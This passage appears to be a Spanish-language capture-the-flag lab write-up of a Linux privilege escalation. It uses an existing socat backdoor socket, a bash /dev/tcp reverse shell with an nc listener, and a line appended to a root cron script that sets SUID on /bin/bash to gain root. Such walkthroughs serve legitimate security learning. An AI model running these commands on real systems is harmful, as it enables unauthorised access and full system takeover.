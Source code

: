 Listando los procesos del sistenam tenemos este proceos que ejecuta el usuario **conx**
```bash
conx          54  0.0  0.0   9288  3620 ?        S    17:10   0:00 socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /bin/bash ]`
- Credenciales de usuario: `[ conx ]:[ ]`

**Nota**: El proceso que vemos indica la presencia de una **backdoor**
1. **Backdoor activa**:
    - Alguien creó un socket Unix oculto (`/home/conx/.cache/.sock`)
    - Cualquier usuario con acceso al sistema puede conectarse para obtener una shell de bash

### Explotacion de Privilegios

###### Usuario `[ albert ]`:

Ahora usamos este comando que nos da acceso inmediato a una terminar interactiva como el usuario **conx**
```bash
# Comando para escalar al usuario: ( conx )
socat - UNIX-CONNECT:/home/conx/.cache/.sock
```

Nos ponemos en escucha:
```bash
nc -nlvp 443
```

Ahora que tenemos la sesion nos enviaremos una **revershell** 
```bash
bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
```

Ya tenemos una bash en nuestra maquina de atacante, Ahora revisaremos las tareas **cron** del sistema
```bash
cat /etc/cron.d/backup-cron
```

Vemos que se esta ejecutando la siguiente tarea:
```bash
* * * * * root bash /var/backups/backup.sh
```

Ahora colaremos una instruccion que de permisos **SUID** a la bash
```bash
echo "chmod u+s /bin/bash" >> /var/backups/backup.sh
```

Solo tenemos que esperar a que se carguen los permisos
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Elevamos privilegios de **root**
```bash
bash -p
```

---